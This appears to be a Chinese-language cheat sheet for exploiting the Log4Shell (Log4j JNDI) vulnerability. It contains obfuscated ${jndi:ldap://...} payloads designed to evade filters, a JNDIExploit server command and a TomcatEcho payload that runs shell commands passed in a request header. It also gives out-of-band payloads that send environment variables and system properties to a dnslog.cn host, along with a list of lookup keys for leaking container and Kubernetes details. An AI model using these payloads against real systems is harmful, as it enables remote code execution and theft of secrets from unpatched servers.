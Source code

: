 ```

${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}

${${nuDV:CW:yqL:dWTUHX:-j}n${obpOW:C:-d}${ll:-i}:${GI:-l}d${YRYWp:yjkg:wrsb:RajYR:-a}p://${RHe:-1}2${Qmox:dC:MB:-7}${ucP:yQH:xYtT:WCVX:-.}0.${WQRvpR:ligza:J:DSBUAv:-0}.${v:-1}:${p:KJ:-1}${Ek:gyx:klkQMP:-0}${UqY:cE:LPJtt:L:ntC:-9}${NR:LXqcg:-9}/o${fzg:rsHKT:-b}j}

${${uPBeLd:JghU:kyH:C:TURit:-j}${odX:t:STGD:UaqOvq:wANmU:-n}${mgSejH:tpr:zWlb:-d}${ohw:Yyz:OuptUo:gTKe:BFxGG:-i}${fGX:L:KhSyJ:-:}${E:o:wsyhug:LGVMcx:-l}${Prz:-d}${d:PeH:OmFo:GId:-a}${NLsTHo:-p}${uwF:eszIV:QSvP:-:}${JF:l:U:-/}${AyEC:rOLocm:-/}${jkJFS:r:xYzF:Frpi:he:-1}${PWtKH:w:uMiHM:vxI:-2}${a:-7}${sKiDNh:ilypjq:zemKm:-.}${QYpbY:P:dkXtCk:-0}${Iwv:TmFtBR:f:PJ:-.}${Q:-0}${LX:fMVyGy:-.}${lS:Mged:X:th:Yarx:-1}${xxOTJ:-:}${JIUlWM:-1}${Mt:Wxhdp:Rr:LuAa:QLUpW:-0}${sa:kTPw:UnP:-9}${HuDQED:-9}${modEYg:UeKXl:YJAt:pAl:u:-/}${BPJYbu:miTDQJ:-o}${VLeIR:VMYlY:f:Gaso:cVApg:-b}${sywJIr:RbbDTB:JXYr:ePKz:-j}}
```

**TomcatEcho 回显方法**
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i xx.xx.xx.xx -l 8899 -p 9988
```

```
${jndi:ldap://xx.xx.xx.xx:8899/Deserialization/CommonsBeanutils2/TomcatEcho}

header 头里带下
cmd: ls
```

**信息带外**

高版本不能rce了，但通过 sys 和 env 协议，结合 jndi 可以读取到一些环境变量和系统变量，特定情况下可能可以读取到系统密码

举个例子
```
${jndi:ldap://${env:LOGNAME}.eynz6t.dnslog.cn}
${jndi:ldap://${sys:os.name}.eynz6t.dnslog.cn}
${jndi:ldap://${sys:java.version}.eynz6t.dnslog.cn}
```

常见带外
```
${ctx:loginId}
${map:type}
${filename}
${date:MM-dd-yyyy}
${docker:containerId}
${docker:containerName}
${docker:imageName}
${env:USER}
${event:Marker}
${mdc:UserId}
${java:runtime}
${java:vm}
${java:os}
${jndi:logging/context-name}
${hostName}
${docker:containerId}
${k8s:accountName}
${k8s:clusterName}
${k8s:containerId}
${k8s:containerName}
${k8s:host}
${k8s:labels.app}
${k8s:labels.podTemplateHash}
${k8s:masterUrl}
```